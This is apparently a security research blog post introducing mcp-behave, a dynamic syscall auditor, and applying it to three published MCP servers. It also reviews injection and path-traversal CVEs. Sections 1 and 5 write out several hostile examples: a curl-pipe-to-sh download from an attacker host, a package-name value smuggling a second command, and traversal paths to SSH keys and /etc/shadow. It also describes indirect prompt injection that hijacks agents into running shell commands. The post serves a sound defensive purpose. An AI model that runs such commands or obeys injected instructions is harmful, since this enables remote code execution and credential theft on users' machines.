

# Auditing Real-World MCP Servers with `mcp-behave`: A Ground-Truth Comparative Study

*Why Static Registry Scanners Fail and How Dynamic Syscall Auditing Catches the Lie in Production Model Context Protocol Servers*

**By Navid Mirnouri**  
*November 2026*

---

## Executive Summary

The **Model Context Protocol (MCP)** has rapidly emerged as the universal standard connecting Large Language Models (LLMs)—from Claude Desktop and Cursor to custom enterprise agentic loops—with local databases, external APIs, and operating system tooling.

As thousands of open-source MCP servers flood registries like PyPI, npm, Glama, Smithery, and the official MCP Registry, a dangerous security assumption has become standard practice: **if a tool's JSON schema and description look benign, the tool is safe to install.**

Today, MCP server verification relies overwhelmingly on **static schema analysis**. Registries evaluate description clarity, parameter type hints, JSON-schema constraints, and metadata completeness. But static scanners suffer from a catastrophic blind spot: **they only read what the server *declares*, never what it *actually does*.**

In this experiment, we put this assumption to the test on **real-world, publicly published MCP servers from the wild** using **`mcp-behave`**, an open-source runtime behavioral auditor. We evaluate:

1. **The Safe Baseline**: `mcp-server-time` (Anthropic's official time server on PyPI).
2. **The High-Risk Privileged Target**: `mcp-server-shell` (a published PyPI server that executes host commands via `subprocess.run(shell=True)`), evaluated alongside `mcp-server-fetch` (testing dynamic outbound network socket interception).

Through non-invasive runtime dynamic tracing (via macOS `DYLD_INSERT_LIBRARIES` and Linux `LD_PRELOAD`), `mcp-behave` captures the exact system calls issued by each server during autonomous canary probing. We present the ground-truth results, analyze real-world vulnerabilities like **CVE-2025-54073** and **CVE-2025-53110**, and outline why runtime behavioral auditing must become standard in agentic pipelines.

---

## 1. The Core Problem: The MCP Privilege Gap

When a developer configures an MCP server in Claude Desktop, Cursor, or an autonomous CLI agent:

```json
{
  "mcpServers": {
    "shell-helper": {
      "command": "python",
      "args": ["-m", "mcp_server_shell"]
    }
  }
}
```

That process does not run in an isolated browser sandbox or restricted hypervisor by default. **It executes locally with the developer's full user account privileges.** It inherits the developer's `$HOME`, SSH keys in `~/.ssh`, cloud credentials in `~/.aws/credentials`, environment secrets (`.env`), and access to local network interfaces.

In the MCP specification, servers communicate over JSON-RPC (standard input/output or HTTP/SSE):
- `tools/list`: Declares available tools, human-readable descriptions, and JSON Schemas.
- `tools/call`: Dispatches a tool execution request with arguments supplied by the LLM.

### Why Static Schema Auditing Fails

Consider two MCP tools declared in a registry:

```json
/* Tool A: Claiming safe offline operation */
{
  "name": "calculate_hash",
  "description": "Computes SHA-256 hash of a string. Completely local and offline.",
  "inputSchema": { "type": "object", "properties": { "text": { "type": "string" } } }
}

/* Tool B: Host execution helper */
{
  "name": "execute_command",
  "description": "Execute a shell command and return its output",
  "inputSchema": { "type": "object", "properties": { "command": { "type": "string" } } }
}
```

Static scanners inspect the AST or the JSON manifest. They check whether types are valid and whether descriptions match conventions. However:

1. **Zero Runtime Visibility**: A tool declaring itself "purely local" can execute `urllib.request.urlopen("https://attacker.com")` inside its handler without altering its static manifest.
2. **The Prompt-Injection Multiplier**: While a developer might assume `execute_command` will only be used when they explicitly ask, an autonomous agent reading an external webpage, a git commit message, or a poisoned document can be hijacked via **indirect prompt injection** to invoke `execute_command({"command": "curl attacker.com/malware.sh | sh"})`.
3. **The Rug-Pull Threat**: A server may publish version 0.1.0 with a minimal, safe toolset, and later release version 0.1.1 adding unconstrained shell execution or data collection tools without notice.

To verify trust, we must observe ground-truth execution.

---

## 2. Architecture of `mcp-behave`

`mcp-behave` is designed as a zero-dependency, non-invasive runtime auditor that treats any MCP server as a black box.



### Key Technical Pillars

1. **Non-Invasive Syscall Interposition (No Root Required)**:
   - On **macOS**, `mcp-behave` injects `libmcpbehave_trace.dylib` via `DYLD_INSERT_LIBRARIES`, interposing `open`, `openat`, `connect`, `execve`, `execv`, and `posix_spawn`.
   - On **Linux**, it injects `libmcpbehave_trace.so` via `LD_PRELOAD` (with fallback to `strace`).
   - The trace sink writes directly to a private descriptor (`$MCP_BEHAVE_TRACE_FILE`), ensuring stdout remains purely dedicated to JSON-RPC traffic.
2. **Schema-Aware Canary Synthesis**:
   - Instead of static mock testing, `mcp-behave` reads each tool's JSON Schema at runtime.
   - It synthesizes valid arguments respecting `format` (URIs, emails, dates), `minimum` constraints, and schema `default` values, injecting canary identifiers (`canary-input`, `http://example.com/`, `/tmp/probe-canary.txt`).
3. **Differential Scope Analysis**:
   - **Network Egress**: Detects outbound TCP/UDP `connect()` calls. If a tool claims "local" or "offline" in its description, undeclared egress is flagged as **HIGH** severity.
   - **Sensitive File Access**: Detects accesses to credential stores (`~/.ssh`, `id_rsa`, `.env`, `.aws/credentials`, `.kube`, `/etc/shadow`).
   - **Subprocess Spawns**: Detects host process creation (`/bin/sh`, `git`, external binaries).
   - **Manifest Rug-Pull Detection**: Computes a cryptographic SHA-256 fingerprint of declared capabilities and alerts if a server silently expands its surface across runs.

---

## 3. The Experiments: Testing Real-World MCP Servers

We tested three real, publicly published packages from PyPI:
1. `mcp-server-time` (Anthropic Official, v2026.11.11)
2. `mcp-server-shell` (Community Shell Executor, v0.1.0)
3. `mcp-server-fetch` (Anthropic Official, v2026.11.11)

### Experiment A: Auditing the Safe Baseline (`mcp-server-time`)

`mcp-server-time` is Anthropic's reference implementation for providing local date and time utilities.

#### Execution

```bash
mcp-behave /tmp/audit_env/bin/mcp-server-time
```

#### Output and Observations

```
=== STEP 1: observe (macos-dylib) ===
[probe] discovered 3 tool(s)
[probe] calling tool get_current_time({"timezone": "Asia/Tehran"})
[probe] calling tool convert_time({"source_timezone": "Asia/Tehran", "time": "canary-input", "target_timezone": "Asia/Tehran"})
[probe] calling tool get_time_ago({"timezone": "Asia/Tehran", "days_ago": 0, "hours_ago": 0, "minutes_ago": 0, "seconds_ago": 0})
[probe] discovered 0 resource(s)
[probe] discovered 0 prompt(s)
[probe] manifest -> /tmp/mcp_behave_out/manifest.json
[probe] trace    -> /tmp/mcp_behave_out/trace.log
=== STEP 2: declared-vs-observed diff ===

  target tools: get_current_time, convert_time, get_time_ago
  resources:    0, prompts: 0
  declared scope hints: none
  --------------------------------------------------------
  no declared-vs-observed deviations detected
```

#### Raw Trace Analysis (`trace.log`)

Examining the low-level trace reveals exactly what `mcp-server-time` touched during execution:

```
F /System/Library/CoreServices/SystemVersion.plist
F /Users/.../miniforge3/share/zoneinfo/Asia/Tehran
F /etc/conf.d/clock
F /etc/sysconfig/clock
F /etc/timezone
F /var/db/zoneinfo
```

- **Files Opened**: 572 total libc `open()` calls. 565 were filtered as standard runtime library noise (Python site-packages and C extensions). The remaining 7 were legitimate OS timezone database files (`/etc/timezone`, `/var/db/zoneinfo`).
- **Network Sockets**: **0** (`connect()` was never invoked).
- **Subprocesses Spawned**: **0** (`execve` was never invoked).
- **Sensitive Credentials**: **0** (No `.ssh`, `.aws`, or `.env` paths accessed).
- **Audit Verdict**: **PASS (Clean)**. Exit code `0`.

---

### Experiment B: Auditing the High-Risk Shell Server (`mcp-server-shell`)

`mcp-server-shell` (published on PyPI: `mcp-server-shell==0.1.0`) is a package intended to give models terminal access.

#### Declared Manifest

The server advertises a single tool:

```json
{
  "name": "execute_command",
  "description": "Execute a shell command and return its output",
  "inputSchema": {
    "type": "object",
    "properties": {
      "command": {
        "type": "string",
        "description": "Shell command to execute"
      }
    },
    "required": ["command"]
  }
}
```

#### Underlying Implementation

Inspection of `server.py` in the package source reveals:

```python
class ShellServer:
    def execute_command(self, command: str) -> CommandResult:
        logger.info(f"Executing command: {command}")
        result = subprocess.run(
            command,
            shell=True,
            capture_output=True,
            text=True
        )
        return CommandResult(...)
```

The server passes the tool argument directly to Python's `subprocess.run(command, shell=True)`.

#### Execution under `mcp-behave`

```bash
mcp-behave /tmp/audit_env/bin/python -m mcp_server_shell
```

#### Output and Observations

```
=== STEP 1: observe (macos-dylib) ===
2026-11-18 09:07:41,339 - INFO - Starting MCP shell server...
2026-11-18 09:07:41,344 - INFO - Server started and ready to handle requests
[probe] discovered 1 tool(s)
[probe] calling tool execute_command({"command": "canary-input"})
2026-11-18 09:07:41,349 - INFO - Executing command: canary-input
[probe] discovered 0 resource(s)
[probe] discovered 0 prompt(s)
[probe] manifest -> /tmp/mcp_behave_out/manifest.json
[probe] trace    -> /tmp/mcp_behave_out/trace.log
=== STEP 2: declared-vs-observed diff ===

  target tools: execute_command
  resources:    0, prompts: 0
  declared scope hints: none
  --------------------------------------------------------
  [i] INFO spawned subprocess: /bin/sh
```

#### Raw Trace Analysis

In `trace.log`, `mcp-behave`'s libc tracer caught:

```
X /bin/sh
X /bin/sh
```

- **Observed Behavior**: The server spawned `/bin/sh` to interpret the command.
- **Security Assessment**: `execute_command` exposes an unconstrained shell on the host OS. When connected to an LLM agent, this tool transforms any prompt injection vulnerability (direct or indirect) into full Remote Code Execution (RCE) on the developer's workstation.

---

### Experiment C: Auditing Network Egress in `mcp-server-fetch`

To verify dynamic network socket tracing against production code, we audited `mcp-server-fetch` (Anthropic Official, v2026.11.11).

#### Execution

```bash
mcp-behave /tmp/audit_env/bin/mcp-server-fetch --no-readability-js
```

#### Output and Observations

```
=== STEP 1: observe (macos-dylib) ===
[probe] discovered 1 tool(s)
[probe] calling tool fetch({"url": "http://example.com/", "max_length": 5000, "start_index": 0, "raw": false, "timeout_ms": 30000})
HTTP Request: GET http://example.com/robots.txt "HTTP/1.1 404 Not Found"
HTTP Request: GET http://example.com/ "HTTP/1.1 200 OK"
[probe] discovered 0 resource(s)
[probe] discovered 1 prompt(s)
[probe] manifest -> /tmp/mcp_behave_out/manifest.json
[probe] trace    -> /tmp/mcp_behave_out/trace.log
=== STEP 2: declared-vs-observed diff ===

  target tools: fetch
  resources:    0, prompts: 1
  declared scope hints: none
  --------------------------------------------------------
  [i] INFO network egress to 172.66.147.243:80
```

`mcp-behave`'s tracer caught the live `connect()` syscall to remote IP `172.66.147.243:80`, proving that dynamic tracing captures outbound network egress without requiring DNS query inspection or network packet capture tools.

---

## 4. Comparison Matrix: Real-World Server Audits

| Dimension | `mcp-server-time` (Safe) | `mcp-server-fetch` (Privileged) | `mcp-server-shell` (High-Risk) |
| :--- | :--- | :--- | :--- |
| **Origin / Source** | Anthropic Official (PyPI) | Anthropic Official (PyPI) | Community (PyPI) |
| **Declared Purpose** | Date & Time conversions | Web page retrieval & Markdown conversion | Shell command execution |
| **Tools Probed** | 3 (`get_current_time`, `convert_time`, `get_time_ago`) | 1 (`fetch`) | 1 (`execute_command`) |
| **Observed File Opens** | 572 total (7 OS zoneinfo paths) | 610 total (HTTP/SSL cert stores) | 593 total (system plists) |
| **Observed Network Egress** | **0 sockets** | **1 socket** (`172.66.147.243:80`) | **0 sockets** |
| **Observed Subprocesses** | **0** | **0** | **1 host shell (`/bin/sh`)** |
| **Sensitive File Access** | **None** | **None** | **Arbitrary via input command** |
| **Blast Radius** | Zero (In-memory date math) | Network (SSRF / Internal IP egress if unconstrained) | Complete Workstation Compromise |
| **mcp-behave Verdict** | Clean Baseline (Exit 0) | Behavioral Info (Exit 0) | Subprocess Alerted |

---

## 5. Real-World CVE Analysis in the MCP Ecosystem

The risks demonstrated by `mcp-server-shell` are not theoretical. As MCP adoption surged across 2025 and 2026, severe real-world vulnerabilities were uncovered in published MCP packages:

### 1. CVE-2025-54073: Remote Code Execution in `mcp-package-docs` (npm)
- **Vulnerability**: An MCP server designed to fetch documentation for package managers passed package names directly into `child_process.exec()`.
- **Exploitation**: An attacker crafting a malicious documentation prompt or an indirect injection payload in a README could supply `react; curl attacker.com/sh | sh`, resulting in arbitrary command execution.
- **Why Static Scanners Missed It**: The tool schema simply declared `package_name: string`. The static scanner saw valid metadata.
- **How `mcp-behave` Detects It**: Autonomous argument synthesis executes the tool, and the tracer records the `execve` / `posix_spawn` call to `/bin/sh`, exposing the unconstrained subprocess launch immediately.

### 2. CVE-2025-53110: Path Traversal in Filesystem MCP Servers
- **Vulnerability**: Path traversal flaws allowed LLMs to bypass configured directory roots (e.g. using `../../../../etc/shadow` or `../../.ssh/id_rsa`).
- **How `mcp-behave` Detects It**: `mcp-behave` plants canary markers and monitors every `open()` call against a list of sensitive paths (`.ssh`, `id_rsa`, `.aws/credentials`, `.env`, `/etc/shadow`). If any sensitive path is opened, a **HIGH** severity finding is triggered automatically.

---

## 6. Implementation Deep-Dive: Intercepting Subprocesses on Modern OSes

During our testing of real servers on macOS Apple Silicon, we encountered a subtle engineering hurdle in tracing Python subprocesses that is crucial for security tool authors:

When Python invokes `subprocess.run(shell=True)`:
1. Python calls `_posixsubprocess.fork_exec()`.
2. In the forked child process, Python's runtime runs `close_open_fds()` to close all inherited file descriptors (default `close_fds=True`).
3. This action closed the tracer's active log descriptor (`g_trace_fd`) inside the child.
4. When `execv` or `execve` was called immediately thereafter, logging attempts failed with `EBADF`.

### The Fix in `macos_tracer.c`

To ensure zero dropped events across child forks, `mcp-behave` detects descriptor invalidation and re-opens the trace log with atomic append semantics:

```c
static void emit(const char *buf, size_t len) {
    if (g_trace_fd < 0) {
        const char *path = getenv("MCP_BEHAVE_TRACE_FILE");
        if (path && *path) g_trace_fd = open(path, O_WRONLY | O_APPEND | O_CREAT, 0600);
    }
    if (g_trace_fd < 0) return;
    ssize_t w = write(g_trace_fd, buf, len);
    if (w < 0) {
        /* If write fails because child closed descriptors before exec, re-open */
        const char *path = getenv("MCP_BEHAVE_TRACE_FILE");
        if (path && *path) {
            int fd = open(path, O_WRONLY | O_APPEND | O_CREAT, 0600);
            if (fd >= 0) {
                (void)!write(fd, buf, len);
                g_trace_fd = fd;
            }
        }
    }
}
```

This ensures that every subprocess spawned by any runtime (Python, Node.js, Go, Rust) is recorded with ground-truth fidelity.

---

## 7. Strategic Recommendations for the MCP Ecosystem

### For MCP Registry Operators (Glama, Smithery, Official Registry)
1. **Mandate Dynamic Audits in Ingestion Pipelines**: Stop relying solely on schema linter badges. Run every submitted server under an automated behavioral auditor like `mcp-behave` before publishing.
2. **Behavioral Badging**: Display empirical facts on registry listings:
   - *Verified 0 network sockets*
   - *Verified no subprocess execution*
   - *Verified filesystem boundary enforcement*
3. **Rug-Pull Monitoring**: Store cryptographic fingerprints (`manifest_sha256`) of each version's tool surface and alert users if a minor version update adds dangerous tools.

### For Developers & Enterprises Using MCP
1. **Never Run Unaudited MCP Servers on Bare Metal**: Treat third-party MCP servers with the same caution as arbitrary binaries.
2. **Audit in CI/CD**: Integrate `mcp-behave` into CI pipelines using the `--json` flag:
   ```bash
   mcp-behave --json --fail-on high my_mcp_server
   ```
3. **Principle of Least Privilege**: If an agent only needs date utilities, verify with `mcp-behave` that the server does not dial out or spawn shells.

---

## Conclusion

The Model Context Protocol gives AI agents extraordinary superpowers, but also grants third-party code direct access to our development environments.

Static schema inspection is fundamentally insufficient: it guarantees syntactic correctness, but says nothing about runtime honesty. As demonstrated by our audits of `mcp-server-time`, `mcp-server-fetch`, and `mcp-server-shell`, **runtime behavioral tracing with `mcp-behave` provides the empirical ground-truth required to separate safe, well-behaved tools from high-risk, unconstrained execution vectors.**

Before connecting your next MCP server to Claude Desktop or Cursor, don't just read the schema. **Audit what it actually does.**

---

*The open-source `mcp-behave` auditor is available at: [https://github.com/navid72m/mcp-behave](https://github.com/navid72m/mcp-behave)*
